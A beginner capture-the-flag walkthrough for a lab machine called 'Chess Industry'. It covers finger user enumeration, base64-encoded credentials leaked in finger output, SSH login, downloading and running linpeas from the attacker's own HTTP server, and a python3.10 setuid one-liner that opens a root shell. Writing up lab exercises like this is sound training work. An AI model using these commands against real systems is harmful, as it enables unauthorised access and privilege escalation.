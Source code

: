 # Task 15 - Chess Industry

Category: Boot2Root
Dificulty: Beginner

# nmap

Starting out, we start an nmap-scan as usual when it is a boot2root machine. Since we want to know what ports are open and find what our possible ways into the machine might be.

![task15_1](https://github.com/user-attachments/assets/f2341a36-3e22-42b4-a3a2-215735bc75c5)


We find that there are 3 ports of interest to start off with. ssh, http and finger. Finger is something I've never encountered before, and we have no credentials for ssh. So the obvious choice to start out with is checking out what we can find on the http port.

# http

As we enter the site this is what we're greeted with.

![task15_2](https://github.com/user-attachments/assets/d4208b05-9f6d-472f-ad59-fb37c5f0d915)


There isn't really much of note at first glance. But to the keen eye we can actually gather some vital information. There are three names here. They might actually be used as usernames as well.

# finger

Since I didn't really have any knowledge about this since before. I tried looking up what it was used for and found this in the man-page of finger.

```
NAME
       finger — user information lookup program

SYNOPSIS
       finger [-lmsp] [user ...] [user@host ...]

DESCRIPTION
       The finger displays information about the system users.
```
So it can be used to lookup users. What if we try this with the names from the site?

```
finger magnus@10.10.107.122 && finger fabiano@10.10.107.122 && finger hikaru@10.10.107.122
```

![task15_3](https://github.com/user-attachments/assets/6399b960-74f5-4c0e-a5f9-b3828e003c90)


Interesting, in fabiano's output we find a string that looks encoded. We can paste it in on https://dencode.com/en/ and let it try to decode it.

There we find that it is encoded with base64 and it is something that looks like credentials in the form of "username:password"

Where can we use them? We have a service that we know is running on the server that we haven't explored yet. Namely SSH.

# ssh

![task15_4](https://github.com/user-attachments/assets/54605fa3-640e-48cf-98cb-44de34f490e6)


Success! We're in. Now if we list the contents of fabianos home directory we find the user-flag.

So now we have the user-flag. Now we have to try to get root and the root flag. How would we do this? Let's make it easy shall we and let linpeas enumerate the machine for us to try to find ways we can escalate privileges.

As usual the first thing to try is to see if we have anything we can run with sudo.

```
sudo -l
```
No luck, but always worth a shot.


```
cd /tmp
```

We change directory to tmp so we can download linpeas into that directory and not have to mess with the home directory. And since we already have linpeas on our local system as part of Kali we go into the directory containing the script on our local machine. There we'll host a simple http server and download the script from our local machine to the target.

```
#locally
cd /usr/share/peass/linpeas && python3 -m http.server -port 1338

#target
wget http://10.9.245.105:1338/linpeas.sh
```

Now that we have the script downloaded onto our target. We will let it enumerate vulnerabilities for privilege escalation and see if we can find a way to get root.

```
bash linpeas.sh
```

![task15_5](https://github.com/user-attachments/assets/7258c02d-e850-4643-8c0d-780d9b29d124)


Very nice! We find out that python3.10 has setuid capabilities. We should be able to leverage this. We just need to make python start something for us with root uid.

```
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![task15_6](https://github.com/user-attachments/assets/abdf5bf3-93a3-4911-9a90-ddd6417ee9d5)


Awesome now we can just read /root/root.txt and get our root-flag and we're done.

# final thoughts

I found this machine a good start to the CTF. It was extremely beginner friendly and straight forward. A good start to build confidence in the participants. Always nice to be able to get a challenge done.

